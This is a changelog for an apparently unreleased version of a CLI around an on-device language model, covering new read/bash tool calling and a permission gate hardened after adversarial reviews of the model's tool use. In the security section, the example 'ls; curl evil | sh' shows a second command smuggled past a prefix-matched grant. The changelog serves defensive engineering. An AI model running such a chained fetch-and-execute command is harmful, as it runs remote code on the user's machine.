


# Technical Changelog — v1.0.1 → HEAD

**Range:** `v1.0.1` (8f31397, 2026-06-20) → HEAD (`d35a2b9`, 2026-07-22) · **34 commits**,
all post-dating the tag. HEAD is **untagged** — `package.json` still reads `1.0.1`; this is
the unreleased next-feature line (the "v1.2" in this file's name is a label, not a tag).

Derived from `git diff v1.0.1..HEAD`, not commit prose. Verified against the v1.0.1 tree
(e.g. `git cat-file -e v1.0.1:src/tools/types.ts` → absent; `repl.ts@v1.0.1` has 0
esc/abort references) so each item below is a real delta, not pre-existing state.

### Diff by area — the raw total is misleading

Raw diff is **87 files, +6,436 / −662**, but a large share is docs and agent/skill
scaffolding, not engineering. Honest split:

| Area | Files | +/− | Product? |
|------|------:|-----|:--------:|
| tests | 17 | +1,902 / −98 | ✅ |
| `src/tools/` (**new** subsystem) | 8 | +919 / −0 | ✅ |
| scripts (demo pipeline, rewritten) | 4 | +539 / −411 | ✅ |
| `src/` (other, modified) | 8 | +367 / −40 | ✅ |
| `apple-fm-helper/` (Swift) | 2 | +238 / −26 | ✅ |
| assets/demos (SVGs) | 4 | +345 / −4 | ✅ (generated) |
| docs | 14 | +914 / −31 | 📄 |
| `.claude/` `.agents/` `.hotsheet/` scaffolding | 24 | +1,089 / −0 | ⚙️ non-code |
| README / CI / config | 6 | +233 / −52 | 📄 |

**Product code only** (`src` + `apple-fm-helper` + `tests` + `scripts`): **+3,965 / −575**.
Note the test delta (+1,902) is larger than any single feature — this release is as much a
test-hardening pass as a feature drop.

**Unchanged baseline (context, not part of this diff):** probe, one-shot/stream generate,
the chat REPL, automatic compaction, native guided generation (FR-8), and the persistent
`LiveSession` (FR-12) all already shipped at v1.0.1. This range adds tools/interrupt *on
top of* them; `no-network` + `zero-runtime-deps` (NFR-1/NFR-4) were already true and stay
true (a networked `web` tool was added **and removed within this range** — net zero).

## 1. Tool calling — the one genuinely new subsystem (FR-14)

`src/tools/` and the Swift `apple-fm-helper/Tools.swift` are **entirely new** (both absent
at v1.0.1). The public API delta in `src/index.ts` is *exclusively* tool/permission
symbols — nothing else was added to the surface:

> `+ ToolRegistry, registryFromNames, toolGuidancePrompt, BUILTIN_TOOLS, readTool, bashTool,
> PermissionPolicy` and types `Tool, ToolContext, ToolDefinition, PermissionMode,
> PermissionRequest, PermissionAsker, PermissionPolicyConfig`.

New CLI flags (`src/cliArgs.ts`): `--allow-tool`, `--deny-tool`, `--yes`, `--tools`.
`ChatSession` gained `tools?: ToolRegistry` + a fail-closed default policy (`src/session.ts`).

Delivered in phases within the range: **P1** plumbing + `read` (AFM-31) · **P2** permission
gate (AFM-32) · **P3** `bash` (AFM-33) · **P4** `web` (AFM-34), **removed** again (AFM-43)
when the model proved unreliable with it — so at HEAD only `read`/`bash` remain and NFR-1
holds. Dispatcher later extracted to `dispatch.ts` (AFM-46).

## 2. Security hardening of the new tools (AFM-62–70, 76–80)

Two adversarial reviews treated the model as **untrusted** and rewrote the gate's weak
spots. Every fix is against code introduced earlier *in this same range*:

- **AFM-63 (HIGH):** exact-equality key matching replaces prefix `startsWith` — a `bash`
  grant for `ls` no longer covers `ls; curl evil | sh`.
- **AFM-76 (HIGH):** `read` enforces the grant boundary on the **symlink-resolved** real path.
- **AFM-64/68:** `--yes` never blanket-approves a `dangerous` tool; the model-controlled
  command/path is sanitized before the approval prompt (`sanitizeForPrompt`).
- **AFM-65/69/70/77:** `bash` runs detached, killed by **process group**, output-capped
  (~256 KiB), scoped env allowlist; `read` refuses non-regular files, byte-bounded + timed.
- **AFM-78:** tools with no policy install a **fail-closed** default. **AFM-79:** validated
  probe parsing. **AFM-80:** per-job least-privilege in release CI.

## 3. Esc-to-interrupt (FR-15) — new

`repl.ts` and `liveSession.ts` had **zero** abort/signal handling at v1.0.1. The range adds
a `cancel` session command + an `AbortSignal` threaded `repl.ts` → `ChatSession.send(…,
signal)` → `LiveSession` → Swift, ending the turn with its **partial** text (kept in
history), not an error (AFM-37; on-device-verified AFM-45).

## 4. Demo pipeline — rebuilt, not just tweaked (AFM-49, 22, 60, 82)

The four SVGs existed at v1.0.1, but the pipeline was reworked: `scripts/lib/cast.mjs` and
`window.mjs` are **new**, `demo.mjs`/`terminal.mjs` heavily rewritten (scripts area churned
+539/−411). `domotion-svg` went **0.13.3 → 0.21.1** (two hops: 0.15 in AFM-49, then 0.21.1
in AFM-60). Added a blinking caret + gradient intro card (AFM-22) and **recaptured
on-device** (AFM-82). SVG changes are generated output.

## 5. Tests & docs (the bulk of the line count)

- **Tests +1,902:** a device-free **E2E CLI suite** (`tests/e2e/cli.e2e.test.ts`, AFM-25,
  392 lines) driving the real bin against the stub helper; new unit suites for tools,
  permissions, dispatch, output caps, bash; **state-transition** suites for
  `session`/`liveSession` (AFM-53/54); a `conventions.test.ts` guard. Suite → **226 passing**.
- **Docs +914:** four new requirement docs — `8-tool-support`, `9-tool-calling`,
  `10-permissions`, `11-builtin-tools` — plus `manual-test-plan.md` and the `tool_call` /
  `cancel` additions to `4-protocol.md`.
- **Helper:** `main.swift` (+152/−26) also maps model-runtime NSErrors to clean wire errors
  (AFM-24), independent of tools.
